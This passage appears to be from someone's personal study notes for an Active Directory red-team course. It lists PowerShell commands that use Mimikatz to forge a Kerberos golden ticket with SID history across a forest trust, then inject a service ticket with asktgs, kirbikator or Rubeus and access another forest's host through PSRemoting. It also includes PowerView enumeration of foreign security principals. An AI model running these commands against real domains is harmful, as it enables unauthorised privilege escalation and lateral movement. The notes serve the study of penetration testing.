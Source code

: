 From eu-dc, create a TGT with SIDHistory of EUAdmins group:
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt
/target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendornet.kirbi"'
```

Request a TGS:
```powershell
.\asktgs.exe C:\Users\Public\euvendornet.kirbi HTTP/euvendor-net.euvendor.local
```

Inject that into current session:
```powershell
.\kirbikator.exe lsa HTTP.euvendor-net.euvendor.local.kirbi
```
Or
```powershell
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendornet.kirbi /service:HTTP/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

Access the euvendor-net machine using PSRemoting:
```powershell
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```



# Trust Abuse (MSSQL Servers)

Same material as in the CRTP:

[CRTP - Trust Abuse (MSSQL Servers)](https://johnermac.github.io/notes/crtp/domprivesc/#trust-abuse---mssql-servers)


# Foreign Security Principals

> A Foreign Security Principal (FSP) represents a Security Principal in a external forest trust or special identities (like Authenticated Users, Enterprise DCs etc.).

- Only SID of a FSP is stored in the Foreign Security Principal Container which can be resolved using the trust relationship.
- FSP allows external principals to be added to domain local security groups. Thus, allowing such principals to access resources in the forest.
- Often, FSPs are ignored, mis-configured or too complex to change/cleanup in an enterprise making them ripe for abuse.

PowerView:
```powershell
Find-ForeignGroup -Verbose
Find-ForeignUser -Verbose
```
